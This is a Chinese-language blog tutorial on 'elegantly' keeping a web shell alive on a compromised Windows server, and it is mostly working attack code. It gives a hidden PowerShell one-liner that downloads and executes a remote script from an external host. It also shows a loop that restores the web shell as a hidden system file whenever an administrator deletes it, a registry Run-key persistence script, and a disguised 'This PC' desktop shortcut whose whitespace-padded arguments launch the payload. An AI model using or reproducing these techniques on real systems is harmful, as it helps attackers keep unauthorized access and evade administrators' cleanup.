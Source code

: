 如何优(wei)雅(suo)的维持住一个web shell？

大大大大前提：咱们已经有了一个web shell了，假定web shell的路径为G:\xampp\htdocs\backdoor\shell.php，读者自行测试时只需要修改ps1文件中这个路径即可。

猥琐0x01：

利用power shell来搞一搞事情，power shell具有“不落地”即可执行的便捷之处

powershell.exe -nop -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://ub3r.cn/tools/backd00r/Backd00r-webshell.ps1');Backd00r-webshell.ps1"
直接执行命令即可运行此ps1脚本，附上代码，如下：

$shell_path = "G:\xampp\htdocs\backdoor\shell.php"
$shell_content = [System.IO.File]::ReadAllBytes($shell_path)
while($true){
    $flag = Test-Path $shell_path
    if($flag -eq "True"){ sleep 1 }
    else{
        [System.IO.File]::WriteAllBytes($shell_path, $shell_content)
        $shell = Get-Item $shell_path
        $shell.Attributes = "Readonly","system","notcontentindexed","hidden","archive"
        sleep 1
    }
}
代码分析：$shell_path的路径是我们已经获取到的web shell的路径，代码很简单，首先ps1先获取web shell的文件内容，然后这个ps1脚本一直在静默检测web shell是否存在，如果脚本被删除则创建一个web shell文件，内容为脚本运行时获取的内容，并继续静默检测管理员是否将web shell删除。

别看这几行代码简短，里面可有彩蛋！请看下图：（GIF加载较慢，效果不爽请移步https://ub3r.cn/tools/backd00r/flag.mp4观看视频）

这个后门留的可舒服？当然仅限于win2k8以上才有power shell，才能用此方法。

猥琐0x02：

如果服务器重启或其他因素导致脚本停止运行，那不妨添加一个写注册表开机启动项的功能吧！

$autorunKeyName = "Windows Powershell"
$autorunKeyVal = "powershell.exe -nop -windowstyle hidden -exec bypass -c ""IEX (New-Object Net.WebClient).DownloadString('https://ub3r.cn/tools/backd00r/Backd00r-webshell.ps1');Backd00r-webshell.ps1"""
$autoruns = Get-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
if (-not $autoruns.$autorunKeyName) {
    New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name $autorunKeyName -Value $autorunKeyVal
}
elseif($autoruns.$autorunKeyName -ne $autorunKeyVal) {
    Remove-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name $autorunKeyName
    New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name $autorunKeyName -Value $autorunKeyVal
}
运行一下这个ps1文件就可以添加把命令添加进注册表中，下次开机时即可自动访问远程的ps1文件并执行，也可以把这段写注册表的代码直接加入到远程的ps1文件中，附文件地址https://ub3r.cn/tools/backd00r/Backd00r-webshell-Auto.ps1

猥琐0x03：

在Evi1cg师父那学习到一种更加猥琐的方法，如图示：
backd00r

如此一来，把”此电脑”快捷方式绑定上执行power shell代码就没毛病了吧！附上代码：

Function LNK_backdoor{
    $Command = "powershell.exe -nop -windowstyle hidden -exec bypass -c ""IEX (New-Object Net.WebClient).DownloadString('https://ub3r.cn/tools/backd00r/Backd00r-webshell.ps1');Backd00r-webshell.ps1"""
    ##HIDE Computer Icon
    $ErrorActionPreference = "SilentlyContinue"
    If ($Error) {$Error.Clear()}
    $RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced"
    If (Test-Path $RegistryPath) {
        $Res = Get-ItemProperty -Path $RegistryPath -Name "HideIcons"
        If (-Not($Res)) {
            New-ItemProperty -Path $RegistryPath -Name "HideIcons" -Value "0" -PropertyType DWORD -Force | Out-Null
        }
        $Check = (Get-ItemProperty -Path $RegistryPath -Name "HideIcons").HideIcons
        If ($Check -NE 0) {
            New-ItemProperty -Path $RegistryPath -Name "HideIcons" -Value "0" -PropertyType DWORD -Force | Out-Null
        }
    }
    $RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons"
    If (-Not(Test-Path $RegistryPath)) {
        New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer" -Name "HideDesktopIcons" -Force | Out-Null
        New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons" -Name "NewStartPanel" -Force | Out-Null
    }
    $RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\NewStartPanel"
    If (-Not(Test-Path $RegistryPath)) {
        New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons" -Name "NewStartPanel" -Force | Out-Null
    }
    If (Test-Path $RegistryPath) {
    ## -- My Computer
        $Res = Get-ItemProperty -Path $RegistryPath -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}"
        If (-Not($Res)) {
            New-ItemProperty -Path $RegistryPath -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}" -Value "1" -PropertyType DWORD -Force | Out-Null
        }
        $Check = (Get-ItemProperty -Path $RegistryPath -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}")."{20D04FE0-3AEA-1069-A2D8-08002B30309D}"
        If ($Check -NE 1) {
            New-ItemProperty -Path $RegistryPath -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}" -Value "1" -PropertyType DWORD -Force | Out-Null
        }
    }
    If ($Error) {$Error.Clear()}
    ##SHOW Computer Icon
    #set-ItemProperty -Path 'HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\ClassicStartMenu' -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}" -Value 0
    #set-ItemProperty -Path 'HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\HideDesktopIcons\NewStartPanel' -Name "{20D04FE0-3AEA-1069-A2D8-08002B30309D}" -Value 0
    #RUNDLL32.EXE USER32.DLL,UpdatePerUserSystemParameters ,1 ,True
    $Commandline = "/c explorer.exe /e,::{20D04FE0-3AEA-1069-A2D8-08002B30309D} | "
    $Command = $Commandline + $Command
    $get_path=New-Object -ComObject WScript.Shell; 
    $path = $get_path.SpecialFolders.Item('Desktop')
    $WshShell = New-Object -comObject WScript.Shell
    $My_Computer = 17
    $Shell = new-object -comobject shell.application
    $NSComputer = $Shell.Namespace($My_Computer)
    $name = $NSComputer.self.name
    $Shortcut = $WshShell.CreateShortcut($path+"\"+$name+".lnk")
    $Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"
    $Shortcut.WindowStyle = 7
    $Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,15"
    $Shortcut.Arguments = '                                                                                                                                                                                                                                      '+ $Command
    $Shortcut.Save()
    refresh
}
Function refresh{
   $source = @"
using System;
using System.Collections.Generic;
using System.Text;
using System.Runtime.InteropServices;
namespace FileEncryptProject.Algorithm
{
  public class DesktopRefurbish
  {
    [DllImport("shell32.dll")]
    public static extern void SHChangeNotify(HChangeNotifyEventID wEventId, HChangeNotifyFlags uFlags, IntPtr dwItem1, IntPtr dwItem2);
    public static void DeskRef()
    {
      SHChangeNotify(HChangeNotifyEventID.SHCNE_ASSOCCHANGED, HChangeNotifyFlags.SHCNF_IDLIST, IntPtr.Zero, IntPtr.Zero);
    }
  }
  #region public enum HChangeNotifyFlags
  [Flags]
  public enum HChangeNotifyFlags
  {
    SHCNF_DWORD = 0x0003,
    SHCNF_IDLIST = 0x0000,
    SHCNF_PATHA = 0x0001,
    SHCNF_PATHW = 0x0005,
    SHCNF_PRINTERA = 0x0002,
    SHCNF_PRINTERW = 0x0006,
    SHCNF_FLUSH = 0x1000,
    SHCNF_FLUSHNOWAIT = 0x2000
  }
  #endregion//enum HChangeNotifyFlags
  #region enum HChangeNotifyEventID
  [Flags]
  public enum HChangeNotifyEventID
  {
    SHCNE_ALLEVENTS = 0x7FFFFFFF,
    SHCNE_ASSOCCHANGED = 0x08000000,
    SHCNE_ATTRIBUTES = 0x00000800,
    SHCNE_CREATE = 0x00000002,
    SHCNE_DELETE = 0x00000004,
    SHCNE_DRIVEADD = 0x00000100,
    SHCNE_DRIVEADDGUI = 0x00010000,
    SHCNE_DRIVEREMOVED = 0x00000080,
    SHCNE_EXTENDED_EVENT = 0x04000000,
    SHCNE_FREESPACE = 0x00040000,
    SHCNE_MEDIAINSERTED = 0x00000020,
    SHCNE_MEDIAREMOVED = 0x00000040,
    SHCNE_MKDIR = 0x00000008,
    SHCNE_NETSHARE = 0x00000200,
    SHCNE_NETUNSHARE = 0x00000400,
    SHCNE_RENAMEFOLDER = 0x00020000,
    SHCNE_RENAMEITEM = 0x00000001,
    SHCNE_RMDIR = 0x00000010,
    SHCNE_SERVERDISCONNECT = 0x00004000,
    SHCNE_UPDATEDIR = 0x00001000,
    SHCNE_UPDATEIMAGE = 0x00008000,
  }
  #endregion
}
"@
     Add-Type -TypeDefinition $source
    [FileEncryptProject.Algorithm.DesktopRefurbish]::DeskRef()
}
LNK_backdoor
$Command是修改命令的地方，更多优雅的套路就看各位老哥继续挖掘了！

结尾0X04：

仅仅分享笔者的一点想法，如有问题希望请直接在下方评论或联系微信即可~

We Chat : z1002968501
